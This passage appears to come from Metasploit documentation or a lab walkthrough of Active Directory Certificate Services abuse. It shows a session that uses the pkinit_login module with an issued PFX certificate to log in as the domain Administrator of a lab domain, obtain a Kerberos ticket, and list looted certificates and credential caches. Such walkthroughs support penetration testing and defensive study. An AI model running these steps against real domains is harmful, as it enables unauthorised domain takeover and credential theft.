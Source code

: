 Finally lets use the new PFX file with the `pkinit_login` to log in as the domain administrator user `Administrator@daforest.com`:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > use auxiliary/admin/kerberos/pkinit_login
msf6 auxiliary(admin/kerberos/pkinit_login) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/kerberos/pkinit_login) > set CERT_FILE /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
CERT_FILE => /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
msf6 auxiliary(admin/kerberos/pkinit_login) > run
[*] Running module against 172.30.239.85

[*] Attempting PKINIT login for Administrator@daforest.com
[+] Successfully authenticated with certificate
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/gwillcox/.msf4/loot/20221216181438_default_172.30.239.85_mit.kerberos.cca_460041.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/pkinit_login) > loot

Loot
====

host           service  type                 name             content                   info                                                                     path
----           -------  ----                 ----             -------                   ----                                                                     ----
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216173718_default_unknown_windows.ad.cs_580032.pfx
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216174559_default_unknown_windows.ad.cs_570105.pfx
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
172.30.239.85           mit.kerberos.ccache                   application/octet-stream  realm: DAFOREST.COM, client: administrator, server: krbtgt/daforest.com  /home/gwillcox/.msf4/loot/20221216181438_default_172.30.239.85_mit.kerberos.cca_460041.bin

msf6 auxiliary(admin/kerberos/pkinit_login) >
```
